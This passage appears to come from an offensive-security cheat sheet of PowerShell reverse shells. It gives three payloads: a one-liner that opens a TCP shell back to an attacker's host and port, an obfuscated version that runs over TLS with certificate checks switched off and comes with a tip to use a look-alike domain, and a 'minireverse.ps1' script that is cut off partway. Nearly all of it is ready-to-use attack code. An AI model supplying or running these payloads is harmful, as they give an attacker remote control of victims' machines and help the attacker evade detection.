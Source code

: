 ```c
$  powershell -nop -exec bypass -c '$client = New-Object System.Net.Sockets.TCPClient("<LHOST>",<LPORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
```

### Obfuscated Reverse Shell

```c
$gnlSlSXDZ = & ([string]::join('', ( ($(0+0-0-0-0-78+78+78),$(101+101+0-0-0-0-0+0-101),($(119)),$(0+0-0-0-0+45),$($(79)),$(((98))),($(106)),$(101+101+0-0-0-0-0+0-101),$(99+99+0-99),$($(116))) |ForEach-Object{$_<##>}|%{ ( [char][int] $_<#ZdQB8miMexFGoshJ4qKRp1#>)})) |ForEach-Object{<##>$($_)}| % {<#HWEG3yFVCbNOvfYute5#>$_<#o#>}) ([string]::join('', ( ($(83+83+0+0+0-0-83),$(((121))),((115)),$($(116)),$(101+101+0-0-0-0-0+0-101),(($(109))),(46),$(0+0-0-0-0-78+78+78),$(101+101+0-0-0-0-0+0-101),$($(116)),(46),$(83+83+0+0+0-0-83),$(0+0+0+0+111),$(99+99+0-99),(107),$(101+101+0-0-0-0-0+0-101),$($(116)),((115)),(46),(84),($(67)),$(80),($(67)),$(0-0+0-108+108+108),$(0+105),$(101+101+0-0-0-0-0+0-101),(110),$($(116))) |ForEach-Object{$($_)<##>}|%{ ( [char][int] <##>$($_)<##>)})) |ForEach-Object{<#FLut3kIYDMAyO9a2hEH0zQJ4w#>$_<#WI8r#>}| % {<#OjUEN8nkxf#>$($_)})("J5q0aMgvL.xAeq3T8MEcL6sRaXUrOZ.SHUZv12CgW0es7xPkJmtFo.CbYjgiDaIe7GWdPs".replace('CbYjgiDaIe7GWdPs',DDDDDDDD).replace('SHUZv12CgW0es7xPkJmtFo',CCCCCCCC).replace('J5q0aMgvL',AAAAAAAA).replace('xAeq3T8MEcL6sRaXUrOZ',BBBBBBBB),$(EEEEEEEE));$fU4QP = $gnlSlSXDZ.GetStream();$h1okj42 = New-Object System.Net.Security.SslStream($fU4QP,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]));$h1okj42.AuthenticateAsClient('FFFFFFFF', $null, "Tls12", $false);$nf1083fj = new-object System.IO.StreamWriter($h1okj42);$nf1083fj.Write('PS ' + (pwd).Path + '> ');$nf1083fj.flush();[byte[]]$h8r109 = 0..65535|%{0};while(($nf839nf = $h1okj42.Read($h8r109, 0, $h8r109.Length)) -ne 0){$nr81of = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($h8r109,0, $nf839nf);$ngrog49 = (iex $nr81of | Out-String ) 2>&1;$nir1048 = $ngrog49 + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($nir1048);$h1okj42.Write($sendbyte,0,$sendbyte.Length);$h1okj42.Flush()};
```

- AAAAAAAA == 1st octet of <LHOST>
- BBBBBBBB == 2nd octet of <LHOST>
- CCCCCCCC == 3rd octet of <LHOST>
- DDDDDDDD == 4th octet of <LHOST>
- EEEEEEEE == <LHOST>
- FFFFFFFF == Domain to auth as (doesn't really matter, use something that looks like theirs)

### minireverse.ps1

```c
$socket = new-object System.Net.Sockets.TcpClient('127.0.0.1', 413);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$args = "";
		if($out.IndexOf(' ') -gt -1){
			$args = $out.substring($out.IndexOf(' ')+1);
			$out = $out.substring(0,$out.IndexOf(' '));
			if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
```